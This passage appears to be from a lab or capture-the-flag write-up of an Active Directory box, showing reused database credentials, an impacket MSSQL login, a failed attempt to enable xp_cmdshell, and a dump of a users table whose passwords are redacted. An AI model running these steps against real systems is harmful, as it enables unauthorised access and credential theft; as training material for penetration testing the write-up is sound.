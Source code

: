 ```zsh
➜  ms01 cat prod_db.conf 
user=web_prod
password=<REDACTED>
db=prod%     
```

Connect to ms01 using the web_prod user.

```zsh
➜  ms01 impacket-mssqlclient web_prod:'<REDACTED>'@10.10.156.101 -dc-ip 10.10.156.101
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (web_prod  guest@master)> enable_xp_cmdshell
ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01\SQLEXPRESS): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL (web_prod  guest@master)> SELECT name FROM master.sys.databases;
name     
------   
master   

tempdb   

model    

msdb     

prod     

SQL (web_prod  guest@master)> SELECT * FROM prod.dbo.users;
id   name              password            
--   ---------------   -----------------   
 1   b'abbie.smith'    b'<REDACTED>'   

 2   b'dorothy.rose'   b'<REDACTED>'   
```

We found two domain users, which can be verified using netexec.
We run BloodHound and check their access.


<figure><img src="../assets/img/abbie_smith_to_m01_generic_all.png" alt=""><figcaption></figcaption></figure>
